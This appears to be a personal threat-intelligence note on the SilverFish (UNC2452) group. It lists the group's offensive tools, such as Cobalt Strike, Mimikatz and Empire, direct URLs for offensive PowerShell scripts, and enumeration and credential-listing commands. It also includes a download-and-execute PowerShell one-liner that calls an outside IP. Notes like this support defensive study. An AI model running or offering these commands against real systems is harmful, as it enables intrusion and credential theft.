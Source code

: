 # This is my notes about the SilverFish(UNC2452) Group


## The SilverFish group uses publicly available red teaming tools such as Empire, cobalt strike, koadic loaders, and, in several cases PowerSploit and Mimikatz post exploitation Powershell scripts. Additionally, there are lots of specially crafted Powershell, BAT, CSPROJ, JavaScript and HTA files that are mainly used for enumeration and data exfiltration.

## TOOLS:

- https://github.com/zerosum0x0/koadic

- Besides the domain fronting method, the SilverFish group uses the ”mallable C2 profile”
features of Cobalt Strike. The following image shows the Cobalt Strike beacon shellcode
emulation results, fronted domain, and actual host value. The chosen mallable C2 profile [22]
artifacts can easily be identified.

https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.4.3.profile

- msbuild.exe utility and .csproj files are frequently used to load shellcode in
red teaming engagements.

- https://www.powershellempire.com/

- https://github.com/gentilkiwi/mimikatz

- https://github.com/p3nt4/Invoke-SocksProxy


### Powershell Direct Links:

- raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
- raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
- raw.githubusercontent.com/device33/PowerView.ps1/master/PowerView.ps1
- raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1


## Most Used Commands:

- nltest /dclist - > Lists all domain controllers in the domain.

- nltest /domain_trusts - > Returns a list of trusted domains

- cmdkey /list - > Displays the list of stored user names and credentials

- net group ”domain admins” /domain   - > Lists all domain controllers in the domain.

- dir c:\\programdata - > Prints the contents of ”programdata” directory (used for enumerating the installed software)

- powershell -nop -enc %Trimmed...% - > Executes the BASE64 encoded powershell 	command/script.


## Other basic commands: 

- dir \"c:\\program files\"
- dir \"c:\\program files (x86)\\\"
- dir \"c:\\ProgramData\\\"

- cmd \/c powershell -nop exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http:\/\/176.10.118.136:80\/pwrvw.ps1'); Droller -OperatingSystem *server* > c:\\ProgramData\\z_servers.txt


## some good resources:

https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps

https://attack.mitre.org/techniques/T1090/004/










